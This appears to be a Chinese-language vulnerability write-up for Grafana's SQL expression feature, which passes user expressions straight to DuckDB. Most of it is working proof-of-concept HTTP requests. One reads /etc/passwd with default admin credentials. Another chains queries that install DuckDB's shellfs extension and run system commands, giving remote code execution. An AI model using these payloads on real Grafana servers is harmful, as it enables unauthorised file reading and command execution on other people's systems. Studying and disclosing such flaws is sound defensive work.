


# 一、漏洞分析
具体调用链比较复杂，详见本地的AI对话。

该漏洞不是严格意义上的SQL注入漏洞，而是将前端的expression字段值直接交由duckDB.QueryFramesInto（）当作SQL语句来执行。

```
export interface ExpressionQuery extends DataQuery {
  type: ExpressionQueryType;
  reducer?: string;
  expression?: string;
  window?: string;
  downsampler?: string;
  upsampler?: string;
  conditions?: ClassicCondition[];
  settings?: ExpressionQuerySettings;
}
```
# 二、漏洞复现
## 发送请求1：
```
POST /api/ds/query?ds_type=__expr__&expression=true&requestId=Q100 HTTP/1.1
Host: 192.168.240.130:3000
Accept: application/json
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 300

{
  "queries": [
    {
      "refId": "A",
      "datasource": {
        "type": "__expr__",
        "uid": "__expr__",
        "name": "Expression"
      },
      "type": "sql",
      "expression": "SELECT content FROM read_blob('/etc/passwd')"
    }
  ],
  "from": "1",
  "to": "2"
}
```


## 发送请求2：
```
POST /api/ds/query?ds_type=__expr__&expression=true&requestId=Q100 HTTP/1.1
Host: your-ip:3000
Accept: application/json
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=

{
  "queries": [
    {
      "refId": "A",
      "datasource": {"type":"__expr__","uid":"__expr__","name":"Expression"},
      "type": "sql",
      "expression": "SELECT 1;INSTALL shellfs FROM community"
    },
    {
      "refId": "B",
      "datasource": {"type":"__expr__","uid":"__expr__","name":"Expression"},
      "type": "sql",
      "expression": "SELECT 1 FROM A ;LOAD shellfs;SELECT * FROM read_csv('id > /tmp/rce_out 2>&1 |', header=false)"
    },
    {
      "refId": "C",
      "datasource": {"type":"__expr__","uid":"__expr__","name":"Expression"},
      "type": "sql",
      "expression": "SELECT b.content FROM A AS a, read_blob('/tmp/rce_out') AS b"
    }
  ],
  "from": "1",
  "to": "2"
}
```

**在Grafana v11.0.0上，可以利用DuckDB的shellfs社区扩展实现远程代码执行。该扩展允许通过DuckDB的read_csv函数配合Unix管道语法执行系统命令。**

通过在单个请求中使用多个带refId引用关系的SQL表达式查询，可以在一次请求中完成扩展安装、命令执行和结果读取的整个利用链。